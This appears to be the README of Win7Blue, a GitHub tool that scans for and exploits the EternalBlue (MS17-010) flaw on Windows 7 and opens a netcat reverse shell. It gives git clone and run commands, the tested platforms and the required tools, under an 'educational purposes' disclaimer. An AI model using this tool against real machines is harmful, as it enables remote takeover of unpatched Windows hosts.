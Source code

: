 # Win7Blue

Scan & Exploit Windows 7 x86 & x64 (EternalBlue MS17-010) Payload: windows/shell_reverse_tcp (netcat)

# ONLY USE FOR EDUCATIONAL PURPOSES

**Screenshot**

![](/screenshot/1.png)

![](/screenshot/2.png)

![](/screenshot/3.png)

* Run:

```bash
root@kali:~# cd ~
root@kali:~# git clone https://github.com/d4t4s3c/Win7Blue.git
root@kali:~# cd Win7Blue
root@kali:~# chmod +x Win7Blue.sh
root@kali:~# ./Win7BLue.sh
```

* Tested On:

  * Kali
  * Parrot
  * Debian
  * Ubuntu
  
* Requirements:
   * Python2.7
   * Msfvenom
   * Impacket
   * Rlwrap
   * Netcat
   * Xterm
   
# NOT BE BAD


